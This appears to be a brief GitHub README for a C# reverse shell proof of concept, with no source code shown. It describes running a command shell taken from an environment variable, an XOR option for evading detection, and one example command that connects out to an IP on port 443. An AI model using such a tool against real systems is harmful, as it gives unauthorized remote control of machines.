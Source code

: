 # csharp_reverse_shell
c# reverse shell poc

Executes whatever is set in the specified environment variable (3rd argument),
The environment variable can also be passed as an XORed string with an integer (4th argument) for opsafety --yeah right
All arguments are required,

e.g > csharp_reverse_shell.exe 192.168.205.13 443 comspec 00
